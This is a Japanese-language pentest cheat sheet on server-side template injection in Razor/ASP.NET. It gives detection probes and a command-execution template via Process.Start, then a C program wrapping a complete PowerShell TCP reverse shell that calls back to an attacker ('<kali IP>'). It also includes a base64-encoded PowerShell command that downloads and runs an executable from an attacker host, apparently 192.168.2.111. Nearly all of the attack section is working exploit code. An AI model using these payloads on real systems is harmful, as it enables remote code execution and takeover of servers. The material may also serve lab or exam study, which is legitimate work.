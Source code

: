 # Server Side Template Injection

Razor ASP.NET

## 脆弱性診断

    ``` c#
        //画面に 49 が返ってくればOK
        @(7*7)
        @() 
        @("{{code}}") 
        //下の方法でいろんなコマンドが実行できる
        @System.Diagnostics.Process.Start("cmd.exe","コマンド");
    ```

## Exploit

* reverse shell
  * msfvenomでexeファイルを作成
  * 下のcのソースを使ってexeを作成して転送(以外と万能)

```c
    #include <windows.h>
    #include <stdio.h>

    int main(){
        system("powershell.exe -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('<kaliのIP>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
        return 0;
    }
```

* アプリケーション上で実行させるコマンドの生成

``` ps
    $command = ' iwr -uri http://<kali ip>/XXX.exe -OutFile C:\Windows\Tasks\XXX.exe; C:\Windows\Tasks\XXX.exe'
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
    $encodedCommand = [Convert]::ToBase64String($bytes)
```

作成後はファイル転送してncで待ち受け

* 作成したコードを貼り付けて実行

``` c#
    @System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc
    IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");
```
